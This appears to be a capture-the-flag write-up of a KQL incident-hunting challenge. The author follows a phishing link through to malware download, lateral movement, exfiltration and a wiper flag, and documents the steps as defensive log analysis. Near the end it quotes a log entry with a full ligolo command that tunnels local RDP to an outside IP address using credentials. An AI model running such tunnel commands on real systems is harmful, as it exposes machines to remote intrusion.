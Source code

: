 # KQL Kraken Hunt

### Tools/Skills 

KQL, Incident Investigation, Log Analysis, Decoding Base64-Encoded Powershell Commands

---

## SYNOPSIS

An alert is generated that a malicious link was clicked on by an employee.

I found the email with the malicious link & documented the sender and receiver of the email. I then identified the victim's role, hostname and ip address. From there, I was able to find the log showing the victim had clicked on the link, when he clicked on it, and then found a file that was subsequently downloaded on his computer. From there, I found that the attacker had created a remote tunnel, then performed a search on network shares. The attacker later exploited a network share to perform lateral movement within the system. After the lateral movement, the attacker performed 3 base64-encoded powershell commands. I decoded these commands and found that the attacker transferred a file out of the system and then deleted the file from the current system.

While this challenge did not go into escalation of events, at this point, if not before, I would be escalating the alert according to a company's playbook.

## SOLUTION & PROCESS

### ONBOARDING

1.  How many Craftperson Elf's are working from laptops?

    **QUERIES:**

    <img src="https://lh7-us.googleusercontent.com/MvbJxM40woFA4Se7p9tWOQm2HNwGU0VDQgfe9utIKP6vvsa2OT6JWrKqioJ1WYPsKbX-Kxi_1b5EWLB025D5RpRtfHJ53VGOeU51G-qtcqW5Ki4NSh1GU9ieXOZO4duxXdgoBWErkX3D-8miDltErz4" alt="" data-size="original">

    **ANSWER:**&#x20;

    <mark style="background-color:green;">25</mark>

### CASE 1

Track down who sent and who received the malicious link, as well as the subject link of the email with the malicious link: '[http://madelvesnorthpole.org/published/search/MonthlyInvoiceForReindeerFood.docx](http://madelvesnorthpole.org/published/search/MonthlyInvoiceForReindeerFood.docx)'

#### QUERIES

<figure><img src="https://lh7-us.googleusercontent.com/a5N2k43-CJEp9TZhSDyg4Nx4P4ZqA2Bli0qw_e5X1ca-9gGXB_fnM3zBxDpKOpOEDap0BgaEHeXFVR5oOaCYFaoZ_0LYuk93scdGDoXYI-wUTXEdW77rhHnlMTS-j6yoZ8DQcDVOwerJD3vxgOk_gIM" alt=""><figcaption></figcaption></figure>

#### RESULT

<figure><img src="https://lh7-us.googleusercontent.com/TEWx2TyqxROsCjFM5rLVDceggA-v58xdnk75d9f88OAKCiBLYEhlxGcil-AUbJcfJZyyzZitePm2umcJCDeZje69-uqWagS4uheLhfWUTILchGTo_0y2D7CxT1hSk_EuFKCZOz0WUmWilR8QeuL1rFA" alt=""><figcaption></figcaption></figure>

<mark style="background-color:green;">SENT:</mark> cwombley@gmail.com

<mark style="background-color:green;">RECEIVED:</mark> alabaster\_snowball@santaworkshopgeeseislands.org

<mark style="background-color:green;">SUBJECT LINE:</mark> “\[EXTERNAL] Invoice foir reindeer food past due”

### CASE 2

Find the role, hostname and ip address of the victim.

#### QUERIES:

<figure><img src="https://lh7-us.googleusercontent.com/RYidirBYNrKLo6o40HKkaufZiA4n2ji3zKezkTp7u8M1HVyEtoBI-4BvjDScxEph46J1iNnGrzoj4iAnE3qPH14tttsqmn0cnkqwwUWxZLUCoRt8B6z3NmU1U1lAgEn3Hm77d1We8J25955fe0XUcYc" alt=""><figcaption></figcaption></figure>

#### RESULT:

<figure><img src="https://lh7-us.googleusercontent.com/3Y4irJPGmPvzKY2PccMde4Nyh3TGslugW77Y1DDS_fOj2-nqsyvutvZpaFSOq0Gl42M8OZ-Nlg71Roz1T5Iy7f7ycN2aF6jrzpwxNY_T_FY5kMFdseMNf8ScTMNhPSi4NxXbu2az-hiZAefocI_j8W4" alt=""><figcaption></figcaption></figure>

<mark style="background-color:green;">IP ADDRESS:</mark> 10.10.0.4

<mark style="background-color:green;">ROLE:</mark> Head Elf

<mark style="background-color:green;">HOSTNAME:</mark> Y1US-DESKTOP

### CASE 3

What time did the victim click on the link? Were any files downloaded after he clicked on it?

#### **QUERY 1 (time):**

<figure><img src="https://lh7-us.googleusercontent.com/vjQBuf1AzOctN15_B3oylkiBAH3_onFBlmdKTyKgffISnb3xBUuCo7b97LdE84Exj91KpBBGEgeMtZ2_5bD6u8myMsLlnft-kupBNJAIdTHrdUL4vAgGRT7V-0-mzJRZ6CXWHo78G4PR4pwz6vwYetc" alt=""><figcaption></figcaption></figure>

#### RESULT 1 (time):

<figure><img src="https://lh7-us.googleusercontent.com/PuHI9oixhptbV5-p8QJddSSYdnlMxvt1vo02Z3a06cHAk7ZTRddCIgLyT6L2_FNdaO_pmfGZto-EfOmfVF8_bGb1FsXFaz8Irkr-ZGcRkEYWTf5aKVCVagIeIFwMIJkUCfNnkeJWBJS_K5b-ZD2S2cw" alt=""><figcaption></figcaption></figure>

#### QUERY 2 (downloaded file):

![](https://lh7-us.googleusercontent.com/lRyC6YQ28kU\_pR5nCbn92Fqkuf8GWlyEG5s6imvz\_UOfPsm1xdLBTDzl7Xu0tuykkynOun1tLwwC3oukJcIEqyCJi6EMKUDDL4h3TYRKsXEd8D9KOtO3XCgalEEa1ZS\_VtcVI4il4cozLrD0ZD4Ajyc)

#### RESULT 2 (downloaded file):

<figure><img src="https://lh7-us.googleusercontent.com/i2eMprbbxh1QBb2an7Ne2UfpfVZkAcUYnZUN7Zw4sbRrhOyxnn0ZvrqQIvESit-hKqayao60YeqK9MwELjJJPUjJLFzSiPMna_CIYrguPIHA8O3OGzXOumOeEYTFes2wz3DRyx-lHzmT-tBhO0nRb-0" alt=""><figcaption></figcaption></figure>

<mark style="background-color:green;">TIME (OF CLICK):</mark> 2023-12-02 10:12:42.0000

<mark style="background-color:green;">DOWNLOADED FILE NAME:</mark> giftwrap.exe

### CASE 4

Where did the attacker create a remote tunnel to? When did the attacker enumerate network shares? What hostname did the attack perform lateral movement to get to?

#### Endpoint IP Address from a created Remote Tunnel

#### QUERY

![](https://lh7-us.googleusercontent.com/XVTPmDsMIZEp--ItJ67Fq8\_lDYxkm1jJFZFDYSEfPKS4VH9sEG0vP4kJMd4Qn1eEjM0D9y20XW9igJOstKdr56IzBMQy54zAxKxyHauurHnQYLvV7UgxQ8oQm7DjfcgT5EvUy8hANf4AF1PUw5mXeYs)

#### RESULT:

<figure><img src="https://lh7-us.googleusercontent.com/13na8qbqYkdYLu8903nbmkt5NsLFbw1u5T4GeWbV0T7JWvmpFUVWyW39yFKuoHTGh22vtBCWtBhp9uuFBie4Qp2ncvzQc8BY2Hcu6jfKweDo76UDjX80Nmfb3kHuDsl_XklbYyU6F542kfH1l6iRl_k" alt=""><figcaption></figcaption></figure>

<mark style="background-color:green;">REMOTE TUNNEL IP ADDRESS:</mark> 113.37.9.17

### Time & Hostname

#### QUERY:

![](https://lh7-us.googleusercontent.com/79ZbEpZXt87wTw0uRpiB1OL\_phy2GliL5CgLDTtpqiKxMfFDhn2qazIUfvDU-t0PBbKf2uEl9ngDCn9A6T8natskto503FD1geuQh4YsaKyv0KZwIYZxwDnyilKpAE\_wcPw8vNS-f-F1rP9\_qLfM0NM)

#### RESULT 1 (TIME when attacker enumerated network shares):

<figure><img src="https://lh7-us.googleusercontent.com/utX1fUCATCO1biW6B0EuUWje_NzTER932a0u41DC_I8gR3D-OdP7__DZk1Z9PYGlBkI2BIT7yEbwO_fq7bM4rqilI82rjiEIQDc0BG09ryaHF1DV6qsq2tKmdnTD87_gNppuY-tQBO-2R1kSnt-jSzw" alt=""><figcaption></figcaption></figure>

#### RESULT 2 (Hostname of lateral movement)

<figure><img src="https://lh7-us.googleusercontent.com/uLdRc2VE2m4hC8LNxvb4xW_IfL_GPmfwb36Xn6reOhujuxcmN-1koCRn3DSn2sXZD-oRcCJuzrfpb-f-EroyYY7usaC77uAWSDyDkLDj2a7E48PjywxaekzbluIFVTJoNo7ij25o1ATEbBxJCh3q6HM" alt=""><figcaption></figcaption></figure>

<mark style="background-color:green;">TIME (OF ENUMERATED NETWORK SHARES):</mark> 2023-12-02T16:51:44Z

<mark style="background-color:green;">HOSTNAME (OF LATERAL MOVEMENT):</mark> NorthPolefileshare\


### CASE 5

Find base64 encoded powershell commands and find the name of the file that was transferred and to where.

#### QUERY

<div align="left">

<figure><img src="https://lh7-us.googleusercontent.com/vLnmuC-nBhxoltH41WizoiRsYpbt2IpUgNIzEkO34KEuGHs6XZQUS6DlLpYLLKv84uMe8snT_QziHpl8wmeSAFjNWPNBe1uVsFuoTy10nV6QVQwFkMyupxSh5lvpk15HmyoQXnAtrDNb8XeSqzkH67o" alt=""><figcaption></figcaption></figure>

</div>

#### RESULT

<figure><img src="https://lh7-us.googleusercontent.com/Qh-bkx5hVYtRvROknWUM_UB4SBXF1omukoWjbaWl3Kz-mZ6ul9bOlgs-cC5iKrLte55RmaMy3oR5w-0vuyLBtzHHZGztGneovIuwE-KVO3s-4J2-MyxUDLE-4n_bn2jfwniIv7qqf901B32rj77xC9w" alt=""><figcaption></figcaption></figure>

#### FURTHER STEPS&#x20;

1. I decoded the four, actually 3, base64 encoded texts in Powershell.&#x20;

<figure><img src="https://lh7-us.googleusercontent.com/q1g_wAseK58O47_l_IVAy0iyyezy4DmKcvEP88tYjVhKdwWehMEpxlQgxm8zeZ4mx7rRTIeemWqGXRvFfIVzOxRdFAXyzN0-7PV1-hF6RgA1bLOAVzjC3GQRBVzmSldFnszPWlSuzLvETroDH5QZKDM" alt=""><figcaption></figcaption></figure>

2. One of the decoded messages was written in reverse, so I wrote it backwards, with some help from AI, discovering the file name.&#x20;
3. A 2nd “decoded” message was almost all numbers, which I thought was strange, so I sent it to chatgpt. ChatGPT found how it was encoded and decoded it, showing me the domain the file was sent to.

<mark style="background-color:green;">TIME (OF FIRST ATTACK):</mark> 2023-12-24T16:07:47Z&#x20;

\*NOTE:there was an encoded powershell command before this one, but it was a basic update, not indicative of an attack)

<mark style="background-color:green;">FILE TRANSFERRED:</mark> NaughtyNiceList.txt

<mark style="background-color:green;">DOMAIN (WHERE FILE WAS SENT):</mark> giftbox.com

### CASE 6

Determine executable and command flag

#### QUERY

\*I used the previous query.

#### RESULT

<figure><img src="https://lh7-us.googleusercontent.com/JdZkygDuCblavsOhMKjahEV4S40jsp7rmSXSpIJ3xOmAgKysEiMABSzIq0wDWbHx9mbYsfTpi-U_RzQsAsut7PEtchqVtfD3vpBzx36TKayZe2oa9ZHmBfOTGsP0hz_4yuNFbG3eQjjjbhD_snlPlqw" alt=""><figcaption></figcaption></figure>

<mark style="background-color:green;">EXECUTABLE:</mark> downwithsanta.exe

<mark style="background-color:green;">COMMAND FLAG</mark>: --wipeall



***

## [ChatGPT Prompts/Answers](https://chat.openai.com/share/94431fef-ea99-4e63-a282-69e523da68f7)

#### Example Prompts:

* What signs would there be that a reverse tunnel connection with a compromised machine is made? Where would I find the IP the connection forwarded to? (Using KQL)
* What is the timestamp when the attackers enumerated network shares on the machine?
* What process names would be indicative of this?
*   Is this a reverse tunnel connection?

    "timestamp": 2023-12-02T11:11:29Z,

    "parent\_process\_name": cmd.exe,

    "parent\_process\_hash": 614ca7b627533e22aa3e5c3594605dc6fe6f000b0cc2b845ece47ca60673ec7f,

    "process\_commandline": "ligolo" --bind 0.0.0.0:1251 --forward 127.0.0.1:3389 --to 113.37.9.17:22 --username rednose --password falalalala --no-antispoof,

    "process\_name": ligolo,

    "process\_hash": e9b34c42e29a349620a1490574b87865cc1571f65aa376b928701a034e6b3533,

    "hostname": Y1US-DESKTOP,

    "username": alsnowball
